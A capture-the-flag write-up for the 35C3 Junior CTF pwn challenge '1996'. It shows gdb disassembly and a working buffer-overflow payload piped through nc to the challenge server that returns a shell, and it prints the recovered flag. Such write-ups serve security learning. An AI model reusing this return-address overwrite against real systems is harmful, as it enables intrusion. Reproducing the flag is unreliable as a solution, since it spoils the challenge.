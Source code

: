 # 35C3 Junior CTF – 1996

* **Category:** Pwn
* **Points:** variable

## Challenge

> It's 1996 all over again!
>
> nc 35.207.132.47 22227

## Solution

The challenge involves a simple *buffer overflow* vulnerability. You will have two files: a binary and a C++ source code. The objective is to change the return address of `getenv` function in order to hijack the flow to `spawn_shell` function.

```
gdb -q ./1996

(gdb) disass spawn_shell
Dump of assembler code for function _Z11spawn_shellv:
   0x0000000000400897 <+0>:	push   %rbp
   0x0000000000400898 <+1>:	mov    %rsp,%rbp
   0x000000000040089b <+4>:	sub    $0x10,%rsp
   0x000000000040089f <+8>:	lea    0x1b3(%rip),%rax        # 0x400a59
   0x00000000004008a6 <+15>:	mov    %rax,-0x10(%rbp)
   0x00000000004008aa <+19>:	movq   $0x0,-0x8(%rbp)
   0x00000000004008b2 <+27>:	lea    -0x10(%rbp),%rax
   0x00000000004008b6 <+31>:	mov    $0x0,%edx
   0x00000000004008bb <+36>:	mov    %rax,%rsi
   0x00000000004008be <+39>:	lea    0x194(%rip),%rdi        # 0x400a59
   0x00000000004008c5 <+46>:	callq  0x4007a0 <execve@plt>
   0x00000000004008ca <+51>:	nop
   0x00000000004008cb <+52>:	leaveq 
   0x00000000004008cc <+53>:	retq   
End of assembler dump.
```

The `spawn_shell` method will be loaded at `0x0000000000400897`.

To exploit the binary, you need to send at least 1024 characters (i.e. the `buf` size). After some analysis, the following exploit can be used to overwrite the return address.

```
(python -c 'print "A"*1048 + "\x97\x08\x40\x00\x00\x00\x00\x00"' ; cat ) | nc 35.207.132.47 22227
```

At this point, you will have a shell.

The `ls` command will reveal a `flag.txt` file.

The `cat flag.txt` command will reveal the flag.

```
35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14
```